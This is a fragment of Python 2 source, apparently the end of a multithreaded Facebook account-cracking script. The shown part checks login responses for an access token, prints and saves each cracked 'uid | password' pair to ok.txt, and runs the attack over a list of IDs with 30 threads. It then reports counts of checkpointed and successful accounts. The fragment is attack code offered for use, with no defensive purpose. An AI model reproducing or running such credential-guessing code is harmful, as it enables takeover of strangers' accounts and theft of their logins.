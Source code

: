 		                                                    else:
		                                                        if 'access_token' in d:
		                                                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass7+" | "+name)
		                                                            ok=open("ok.txt","a")
		                                                            ok.write(uid+" | "+pass7+"\n")
		                                                            ok.close()
		                                                            oks.append(uid)
		                                        
									
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print("\033[1;97m--------------------------------------------------")
	print ('\033[1;97m[+]\033[1;97m Process Has Been Completed')
	print('\033[1;97m[+]\033[1;97m Total CP/OK:\033[0;97m  '+str(len(cps))+'/\033[1;92m '+str(len(oks)))
	print("\033[1;97m--------------------------------------------------")
	raw_input("Press Enter To Main Menu Back")
	menu()
	
if __name__ == '__main__':
    tech_abm()
